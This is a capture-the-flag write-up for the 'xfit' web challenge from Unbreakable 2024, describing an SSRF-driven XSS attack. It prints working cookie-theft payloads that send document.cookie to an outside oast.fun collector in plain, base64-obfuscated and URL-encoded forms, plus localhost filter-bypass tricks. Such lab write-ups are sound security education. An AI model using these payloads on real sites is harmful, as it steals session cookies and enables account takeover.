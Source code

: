 ```yaml
---
title: xfit
date: 2024-04-07T14:23:28+03:00
description: Writeup for xfit [Unbreakable 2024]
type: writeup
author: H0N3YP0T
tags:
- web
draft: false
---
```

___

## DISCLAIMER

This challenge was not solved during the competition, but we were really close of the solution and spend a lot of time on it. We decided to write a writeup to
describe our approach and the solution we found after the competition.

## Challenge Description

Picture this: within the vast expanse of the digital realm, lies a crucial secret vault—a clandestine cache known as cookies. But beware, for these digital treasures are not scattered haphazardly. No, they are meticulously guarded within the confines of their respective domains, each one a sentinel of its cyber kingdom. It's a thrilling saga of hidden treasures and guarded gateways, where the very essence of your online identity hangs in the balance!


## Intuition

The description mention subdomains and cookies. Combining these two and the name of the challenge,
I assumed I had to steal cookie by using XSS. The website is a static one with only two endpoints:
 - `/contact` which send an email (it seems only the message parameter is required)
 - `/error?err=404` which returns a 404 error page (or 500, 200, ...)

![img.png](/images/unbreakable_2024/contact.png)
![img_1.png](/images/unbreakable_2024/err.png)

Here we can see the request to the `/contact` endpoint.

![img.png](/images/unbreakable_2024/request.png)

## What we tried

First we tried to remove all parameter from the request in order to see the behavior of the website.
We noticed we received some parsing error with a findLinks function. It gave us a hint about a potential SSRF or 
CSRF vulnerability.

![img.png](/images/unbreakable_2024/parse.png)

In order to confirm that wa tried to request a server under our control with this [tool](https://app.interactsh.com/#/).

![img.png](/images/unbreakable_2024/test.png)
![img_1.png](/images/unbreakable_2024/response.png)

As we can see above we got the request which means the server is visiting the link we provided.

Going back to the error page, it seems that the error parameter is vulnerable to XSS as the following picture shows.

![img.png](/images/unbreakable_2024/xss.png)

```js
<img src=x onerror=confirm(1)>
```

Knowing that we can now steal the cookie using the following logic:
 - Send a message to the `/contact` endpoint with the following payload:
```js
http://127.0.0.1/error.html?err=<img+src=x+onerror="document.location='http://xhtfiwjfrxvxawnsmojcux2nwwez03yx3.oast.fun/?c='%2Bdocument.cookie">
```
 - Wait for the server to visit the error page
 - The admin's cookie will be sent to our server
 - Profit

![img.png](/images/unbreakable_2024/trying.png)

Unfortunately we do not receive any cookie it seems the parsing is not working as expected.

![img.png](/images/unbreakable_2024/noCookie.png)

The supposition is that the parsing ignore the first part of the URL (green part below) but 
only understand the second part as URL (blue part below). Therefore, it does not execute any javascript which
means we cannot steal the cookie.

![img.png](/images/unbreakable_2024/fail.png)

To bypass this we decided to base64 encode the second part with this payload:

```js
http://127.0.0.1/error.html?err=<img+src=x+onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly94aHRmaXdqZnJ4dnhhd25zbW9qY3V4Mm53d2V6MDN5eDMub2FzdC5mdW4vP2M9Jytkb2N1bWVudC5jb29raWU='))">
```

Unfortunately, this time, we did not receive any request on our server, so we assumed the parsing had some anti-SSRF
protection by blacklisting the localhost / 127.0.0.1 IP.

We started a lot of bypass techniques such as `http://0177.0.0.01`, `http://0x7f.0x0.0x0.0x1` and many more without success.

## Solution

We were pretty close of the actual solution but we were wrong by thinking that the parsing functions blacklisted the localhost IP.
We missed something when trying URL encoding and then base64 encoding. The correct payload was actually an URL encoded one but
apparently we did it wrong.

```js
http://localhost/error.html?err=%3Cimg%20src%3Dx%20onerror%3Ddocument%2Elocation%3D%22http%3A%2F%2Fzyeapckdjkrwivdzxeeabjaadiyukbx8f%2Eoast%2Efun%2F%3Fc%3D%22%2Bdocument%2Ecookie%3E
```

In conclusion the challenge trolled us because when we tried the correct payload with URL encoding only but,
the server either did not execute the javascript (document.cookie) or the server just crashed except 
one time for random and mysterious reason where we got the flag (after the CTF ended).

![img.png](/images/unbreakable_2024/fuck.png)


